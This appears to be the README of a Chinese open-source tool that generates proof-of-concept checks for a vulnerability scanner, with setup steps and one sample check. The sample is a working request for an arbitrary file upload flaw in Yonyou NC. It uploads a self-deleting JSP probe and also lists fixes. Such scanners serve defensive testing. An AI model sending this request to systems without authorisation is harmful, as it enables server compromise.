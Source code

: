 # Hunting-Rabbit-POC-Generator

## 简介

本项目为 Hunting-Rabbit 系列项目之一 ，是Hunting-Rabbit-VulScanner 专属POC生成器，致力于最直观简洁的POC编写。

## 截图/演示

![image-20240620110948651](img/image-20240620110948651.png)

生成的POC如下：

![image-20240620111438677](img/image-20240620111438677.png)

```json
{
    "vul_name": "用友 NC avatar 任意文件上传",
    "level": "高危",
    "description": "用友 NC acatar接口存在任意文件上传漏洞，可上传恶意脚本至服务器。",
    "product": "用友 NC",
    "version": "用友 NC",
    "cve": "无",
    "reference": "https://mp.weixin.qq.com/s/SS_KVTcomHmWbP5zEvVyMw",
    "fixing": "https://blog.csdn.net/qq_36618918/article/details/137913219\n1、升级到安全版本\n 2、如非必要，禁止公网访问该系统。\n 3、设置白名单访问。",
    "rule": {
        "path": "/uapim/upload/avatar?usercode=qbll&fileType=jsp",
        "method": "GET",
        "headers": "User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36\nConnection: close\nContent-Length: 242\nAccept-Encoding: gzip, deflate, br\nContent-Type: multipart/form-data; boundary=----v6bavojmqudas7g0al2o",
        "body": "------v6bavojmqudas7g0al2o\nContent-Disposition: form-data; name=\"uploadedfile\"; filename=\"klywwjrrux.jsp\"\n\n<%out.print(\"lmnpl\");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>\n------v6bavojmqudas7g0al2o--",
        "status_code": "200",
        "keywords": "true",
        "res_time": ""
    },
    "operator": {
        "author": "浪飒",
        "email": "langsa-hy@qq.com",
        "github": "https://github.com/langsasec"
    }
}
```



## 安装和使用

1. 拉取代码：

   ```
   git clone https://github.com/langsasec/Hunting-Rabbit-POC-Generator
   ```

2. 安装依赖

   ```
   cd Hunting-Rabbit-POC-Generator && pip install -r requirements.txt
   ```

3. Python3运行

   ```
   python Hunting-Rabbit-POC-Generator.py
   ```

4. 运行后会生成config.ini配置文件，内容如下，可自行配置

   ```
   # 请勿删除此行，这是为了用户填写联系信息，你将是POC的贡献者，方便其他用户使用POC时可以互相联系，也可以不填写
   Author= 你的名字
   Email=邮箱
   GitHub=Github地址
   ```